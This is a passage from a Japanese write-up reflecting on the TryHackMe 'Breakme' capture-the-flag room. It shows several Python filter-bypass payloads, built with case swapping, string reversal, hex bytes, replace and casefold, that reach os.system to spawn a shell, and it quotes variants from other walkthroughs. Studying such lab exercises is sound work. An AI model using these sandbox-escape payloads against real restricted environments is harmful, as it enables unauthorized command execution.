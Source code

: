 ## 振り返り

- 競合状態を利用して自分でツールを作るタイプは CTF としては初見
- 最後のフィルターバイパスを早々にあきらめてしまったのは、Python の`__builtins__.__dict__`のような基本構造に苦手意識があったことも一因にあったと思う。下記のような完成形をすぐに思い描けなければ、フィルターのバイパスを調べることも難しい。

```
__builtins__.__dict__['__import__']('os').__dict__['system']('sh')
```

- フィルターバイパスの方法は他にも多数あったようで、他のウォークスルーでどんな方法が使われていたのか調べてみた。

https://jaxafed.github.io/posts/tryhackme-breakme/#shell-as-root

```sh
>> __builtins__.__dict__['__IMPORT__'.swapcase()]('OS'.swapcase()).__dict__['SYSTEM'.swapcase()]('SH'.swapcase())

>> __builtins__.__dict__['__tropmi__'[::-1]]('so'[::-1]).__dict__['metsys'[::-1]]('hs'[::-1])

>> __builtins__.__dict__['__imXport__'.replace('X','')]('oXs'.replace('X','')).__dict__['sXystem'.replace('X','')]('sXh'.replace('X',''))

>> __builtins__.__dict__[str(bytes.fromhex('5f5f696d706f72745f5f'),'utf-8')](str(bytes.fromhex('6f73'),'utf-8')).__dict__[str(bytes.fromhex('73797374656d'),'utf-8')](str(bytes.fromhex('7368'),'utf-8'))

>> __builtins__.__dict__['cexe'[::-1]](input())
__import__("os").system("id")
```

https://loghmariala.github.io/posts/Breakme/

```sh
print(__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__[f'SYSTEM'.casefold()]('ID'.casefold()))
```

大文字小文字変換、逆順、UTF8 バイト等。件数的には casefold を使っていた人が多かった印象。
